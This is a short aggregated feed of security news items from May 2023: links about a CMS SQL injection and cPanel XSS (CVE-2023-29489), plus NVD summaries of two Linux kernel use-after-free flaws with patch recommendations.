<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/172067/chitorcms112rollno-sql.txt">
https://packetstormsecurity.com/files/172067/chitorcms112rollno-sql.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-05-01`

<blockquote>
Finding XSS in a million websites (cPanel CVE-2023-29489)
https://www.reddit.com/r/netsec/comments/1305jjj/finding_xss_in_a_million_websites_cpanel/
</blockquote>

<table><tr><td><b>→</b><a href="https://www.reddit.com/r/netsec/comments/1305jjj/finding_xss_in_a_million_websites_cpanel/">
https://www.reddit.com/r/netsec/comments/1305jjj/finding_xss_in_a_million_websites_cpanel/
</a>
<blockquote>
Posted by u/Mempodipper - 1 vote and no comments
</blockquote>
</td></tr></table>

---

# cibsecurity
`2023-05-01`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2235

<blockquote>
‼ CVE-2023-2235 ‼

A use-after-free vulnerability in the Linux Kernel Performance Events system can be exploited to achieve local privilege escalation.The perf_group_detach function did not check the event's siblings' attach_state before calling add_event_to_groups(), but remove_on_exec made it possible to call list_del_event() on before detaching from their group, making it possible to use a dangling pointer causing a use-after-free vulnerability.We recommend upgrading past commit fd0815f632c24878e325821943edccc7fde947a2.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-01`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2236

<blockquote>
‼ CVE-2023-2236 ‼

A use-after-free vulnerability in the Linux Kernel io_uring subsystem can be exploited to achieve local privilege escalation.Both io_install_fixed_file and its callers call fput in a file in case of an error, causing a reference underflow which leads to a use-after-free vulnerability.We recommend upgrading past commit 9d94c04c0db024922e886c9fd429659f22f48ea4.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

